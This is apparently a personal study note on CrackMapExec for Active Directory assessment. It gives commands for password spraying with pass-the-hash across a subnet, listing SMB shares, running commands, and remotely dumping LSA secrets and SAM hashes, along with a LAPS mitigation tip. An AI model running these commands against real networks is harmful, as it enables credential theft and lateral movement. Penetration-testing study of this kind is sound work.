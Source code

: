 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
A post-exploitation tool for assessing the security of *large Active Directory networks*. CME supports a number of protocols: [[MSSQL]], [[SMB]], [[SSH]], [[WinRM]] etc (can be listed in the help section of the CLI). With this tool we can also brute force user credentials with dictionary attacks. Once we have access we can use a tool like [[Evil-Winrm]] to efficiently communicate with the winrm service.

> A community open-source version is [NetExec](https://github.com/Pennyw0rth/NetExec) which is based on the original CME by its original contributors
> https://www.netexec.wiki/

## Installation
```
sudo apt-get -y install crackmapexec
```

## Documentation
**Cheatsheet:** 
**Website:** https://web.archive.org/web/20231116172005/https://www.crackmapexec.wiki/
## Usage
```sh
crackmapexec <proto> <target-ip> -u <user or userlist> -p <pass or passlist> -d .
```

### Password Spraying a domain using Pass-the-Hash
We can perform a password spraying attack on a set of targets to see if we are able to login to any host on a subnet. 
```sh
crackmapexec smb [target(s)] -u [user] -d . -H [hash]

# Try credentials against local administrator password on each host
crackmapexec smb 10.129.201.0/24 -u Administrator -d . -H [administrator_hash] --local-auth
```
The `--local-auth` can also be added if we want to attempt to login via local credentials on the host (eg. the local administrator password). 
> If we discover systems all using the same administrator password, we could recommend the use of the [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) which randomises the local admin password and can also rotate it on fixed intervals.

The `-x` flag can be used to execute a command too

### List SMB Shares
```sh
crackmapexec smb [ip] -u [user] -p [pass] --shares
```

### Extracting Hashes from SAM Database
**Remote dumping** of the LSA secrets & SAM databases can also be done via tools like `crackmapexec` using a local administrator account:
```sh
$ crackmapexec smb [ip] --local-auth -u [user] -p [pass] --lsa

$ crackmapexec smb [ip] --local-auth -u [user] -p [pass] --sam
```
